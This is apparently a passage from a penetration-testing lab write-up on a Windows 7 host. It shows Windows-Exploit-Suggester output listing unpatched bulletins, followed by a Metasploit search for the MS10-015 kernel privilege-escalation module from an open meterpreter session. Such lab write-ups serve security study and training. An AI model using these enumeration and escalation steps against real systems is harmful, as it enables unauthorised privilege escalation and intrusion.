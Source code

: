                                      [04]: dead:beef::58c0:f1cf:abc6:bb9e


// Copy the output to file systeminfo.txt

// And run Windows-Exploit-Suggester.py

    $ python windows-exploit-suggester.py --database 2021-07-08-mssb.xls --systeminfo systeminfo.txt 
------

    [*] initiating winsploit version 3.3...
    [*] database file detected as xls or xlsx based on extension
    [*] attempting to read from the systeminfo input file
    [+] systeminfo input file read successfully (utf-8)
    [*] querying database file for potential vulnerabilities
    [*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
    [*] there are now 179 remaining vulns
    [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
    [+] windows version identified as 'Windows 7 32-bit'
    [*] 
    [M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
    [M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
    [E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
    [*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
    [*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
    [*] 
    [E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
    [M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
    [M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
    [E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
    [E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
    [M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
    [M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
    [M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
    [*] done

// Lets search MS10-015 in Metasploit

    meterpreter > background 
    [*] Backgrounding session 1...
    
    msf6 post(multi/recon/local_exploit_suggester) > search MS10-015

    Matching Modules
    ================
